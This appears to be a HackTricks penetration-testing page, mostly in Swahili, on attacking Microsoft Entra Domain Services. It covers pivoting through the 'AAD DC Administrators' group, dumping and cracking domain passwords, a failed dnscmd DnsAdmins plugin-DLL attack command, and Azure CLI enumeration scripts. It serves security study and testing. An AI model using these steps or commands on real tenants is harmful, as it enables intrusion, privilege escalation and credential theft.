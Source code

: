 # Az - Microsoft Entra Domain Services

{{#include ../../../banners/hacktricks-training.md}}

## Huduma za Kikoa

Microsoft Entra Domain Services inaruhusu kuanzisha Active Directory katika Azure bila kuhitaji kusimamia Domain Controllers (kwa kweli huna hata ufikiaji kwao).

Lengo lake kuu ni kukuruhusu kuendesha programu za zamani katika wingu ambazo hazina uwezo wa kutumia mbinu za uthibitishaji wa kisasa, au ambapo hutaki utafutaji wa directory urudi kila wakati kwenye mazingira ya AD DS ya ndani.

Kumbuka kwamba ili kusawazisha watumiaji walioanzishwa katika Entra ID (na sio kusawazishwa kutoka kwa active directories nyingine) kwa huduma ya kikoa ya AD unahitaji **kubadilisha nenosiri la mtumiaji** kuwa jipya ili liweze kusawazishwa na AD mpya. Kwa kweli, mtumiaji hajasawazishwa kutoka Microsoft Entra ID hadi Huduma za Kikoa hadi nenosiri libadilishwe.

> [!WARNING]
> Hata kama unaunda kikoa kipya cha active directory huwezi kukisimamia kabisa (isipokuwa kwa kutumia baadhi ya makosa ya usanidi), ambayo inamaanisha kwamba kwa kawaida huwezi kuunda watumiaji katika AD moja kwa moja. Unawaunda kwa **kusawazisha watumiaji kutoka Entra ID.** Unaweza kuashiria kusawazisha watumiaji wote (hata wale walio sambazwa kutoka AD za ndani), watumiaji wa wingu pekee (watumiaji walioanzishwa katika Entra ID), au hata **kuwafanyia uchujaji zaidi**.

> [!NOTE]
> Kwa ujumla, kutokana na ukosefu wa kubadilika katika usanidi wa kikoa kipya na ukweli kwamba AD mara nyingi tayari ziko ndani, hii siyo muunganiko mkuu kati ya Entra ID na AD, lakini bado ni ya kuvutia kujua jinsi ya kuathiri.

### Pivoting

Wajumbe wa kundi lililoundwa la **`AAD DC Administrators`** wanapewa ruhusa za usimamizi wa ndani kwenye VMs ambazo zimeunganishwa na kikoa kinachosimamiwa (lakini sio kwenye domain controllers) kwa sababu wameongezwa kwenye kundi la wasimamizi wa ndani. Wajumbe wa kundi hili pia wanaweza kutumia **Remote Desktop kuungana kwa mbali na VMs zilizounganishwa na kikoa**, na pia ni wajumbe wa makundi:

- **`Denied RODC Password Replication Group`**: Hili ni kundi linalobainisha watumiaji na makundi ambayo nenosiri zao haziwezi kuhifadhiwa kwenye RODCs (Read-Only Domain Controllers).
- **`Group Policy Creators Owners`**: Kundi hili linawaruhusu wajumbe kuunda Sera za Kundi katika kikoa. Hata hivyo, wajumbe wake hawawezi kutekeleza sera za kundi kwa watumiaji au kundi au kuhariri GPO zilizopo, hivyo si ya kuvutia sana katika mazingira haya.
- **`DnsAdmins`**: Kundi hili linaruhusu kusimamia mipangilio ya DNS na limekuwa likitumiwa vibaya katika siku za nyuma ili [kuinua mamlaka na kuathiri kikoa](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html?highlight=dnsadmin#dnsadmins), hata hivyo baada ya kujaribu shambulio katika mazingira haya ilithibitishwa kwamba udhaifu umepatiwa suluhisho:
```text
dnscmd TDW52Y80ZE26M1K.azure.training.hacktricks.xyz /config /serverlevelplugindll \\10.1.0.6\c$\Windows\Temp\adduser.dll

DNS Server failed to reset registry property.
Status = 5 (0x00000005)
Command failed:  ERROR_ACCESS_DENIED     5    0x5
```
Kumbuka kwamba ili kutoa ruhusa hizi, ndani ya AD kundi **`AAD DC Administrators`** linafanywa kuwa mwanachama wa makundi ya awali, na pia GPO **`AADDC Computers GPO`** inaongeza kama Wasimamizi wa Mitaa wanachama wote wa kundi la kikoa **`AAD DC Administrators`**.

Kupitia Entra ID hadi AD iliyoundwa na Huduma za Kikoa ni rahisi, ongeza tu mtumiaji kwenye kundi **`AAD DC Administrators`**, upate kupitia RDP kwenye mashine yoyote/zote katika kikoa na utaweza kuiba data na pia **kuathiri kikoa.**

Hata hivyo, kupita kutoka kikoa hadi Entra ID si rahisi kwani hakuna chochote kutoka kikoa kinachosawazishwa kwenye Entra ID. Hata hivyo, kila wakati angalia metadata kwa VMs zote zilizounganishwa kwani utambulisho wao wa usimamizi uliotolewa unaweza kuwa na ruhusa za kuvutia. Pia **dondoa nywila za watumiaji wote kutoka kikoa** na jaribu kuzivunja ili kisha uingie kwenye Entra ID / Azure.

> [!NOTE]
> Kumbuka kwamba katika siku za nyuma, udhaifu mwingine katika AD hii iliyosimamiwa ulipatikana ambao uliruhusu kuathiri DCs, [kama hii](https://www.secureworks.com/research/azure-active-directory-domain-services-escalation-of-privilege?utm_source=chatgpt.com). Mshambuliaji anayekabili DC anaweza kwa urahisi kudumisha uwepo bila wasimamizi wa Azure kugundua au hata kuwa na uwezo wa kuondoa. 

### Enumeration
```bash
# Get configured domain services domains (you can add more subs to check in more subscriptions)
az rest --method post \
--url "https://management.azure.com/providers/Microsoft.ResourceGraph/resources?api-version=2021-03-01" \
--body '{
"subscriptions": [
"0ce1297c-9153-425d-3229-f51093614377"
],
"query": "resources | where type == \"microsoft.aad/domainservices\"",
"options": {
"$top": 16,
"$skip": 0,
"$skipToken": ""
}
}'

# Get domain configuration
az rest --url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/entra-domain-services/providers/Microsoft.AAD/DomainServices/<domain-name>?api-version=2022-12-01&healthdata=true"
## e.g.
az rest --url "https://management.azure.com/subscriptions/0ce1297c-9153-425d-3229-f51093614377/resourceGroups/entra-domain-services/providers/Microsoft.AAD/DomainServices/azure.training.hacktricks.xyz?api-version=2022-12-01&healthdata=true"

# Based on the VNet assigned to the domain services, you can enumerate the VMs in the domain

subscription_id="0ce1297c-9153-425d-3229-f51093614377"
vnet_name="aadds-vnet"

# Retrieve all VMs in the subscription
vm_list=$(az vm list --subscription "$subscription_id" --query "[].{Name:name, ResourceGroup:resourceGroup}" --output tsv)

# Iterate through each VM to check their VNet connection
echo "VMs connected to VNet '$vnet_name':"
while IFS=$'\t' read -r vm_name resource_group; do
nic_ids=$(az vm show --subscription "$subscription_id" --name "$vm_name" --resource-group "$resource_group" --query "networkProfile.networkInterfaces[].id" --output tsv)

for nic_id in $nic_ids; do
subnet_id=$(az network nic show --ids "$nic_id" --query "ipConfigurations[0].subnet.id" --output tsv)

if [[ $subnet_id == *"virtualNetworks/$vnet_name"* ]]; then
echo "VM Name: $vm_name, Resource Group: $resource_group"
fi
done
done <<< "$vm_list"
```
{{#include ../../../banners/hacktricks-training.md}}
